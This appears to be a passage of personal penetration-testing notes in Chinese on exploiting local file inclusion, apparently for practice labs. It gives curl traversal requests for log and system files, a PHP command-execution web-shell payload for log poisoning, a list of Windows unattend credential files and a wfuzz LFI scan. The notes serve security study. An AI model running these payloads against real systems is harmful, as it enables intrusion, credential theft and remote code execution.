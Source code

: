 
> [!解釋]
>LFI跟Path traversal的差別就是LFI可以讓撈到的檔案執行，如果不是執行檔那就可以讀到source code，而Path traversal就是單純讀檔案而已。
>常見的LFI rce手法有 Log Poisoning

> [!danger]
> 不要再忘記Log Poisoning了好嗎?

## LFI的執行步驟
1. 確認可以存取logs
```
curl http://192.168.0.100/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
2. 利用各種手法注入code
```
<?php echo system($_GET['cmd']); ?>
```
3. 啟動RCE
```
curl http://192.168.0.100/index.php?page=../../../../../../../../../var/log/apache2/access.log?cmd=id
```
## 常見的logs位置

| 名稱     | 位置                            |
| ------ | ----------------------------- |
| Nginx  | `/var/log/nginx/`             |
| Nginx  | ` C:\nginx\log\ `             |
| apache | `/var/log/apache2/access.log` |
```
- C:/Windows/Panther/Unattend/Unattended.xml
- C:/Windows/Panther/Unattended.xml
- C:/Windows/Panther/Unattend.txt
- C:/Unattend.xml
- C:/Autounattend.xml
- C:/Windows/system32/sysprep
```
- 用url抓取當前執行的process
``` title:pg_Bottleup
curl http://192.168.154.246:8080/view?page=/..%%32%66..%%32%66/proc/self/cmdline  --output - 
```
* 用curl繞過
```
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
## 利用`wfuzz`找LFI
- [LFI-Interesting-Files（249）.txt](https://github.com/ricew4ng/Blasting-Dictionary/blob/master/LFI-Interesting-Files%EF%BC%88249%EF%BC%89.txt)

```
wfuzz -c --hh=32 -z file,LFI\ payloads.txt http://192.168.160.246:8080/view?page=FUZZ
```
## PHP Wrapper & PHP filter
>[!warning]  小節目錄
 一種PHP的神奇功能，在有LFI漏洞前提下，可以拿到source code或是RCE
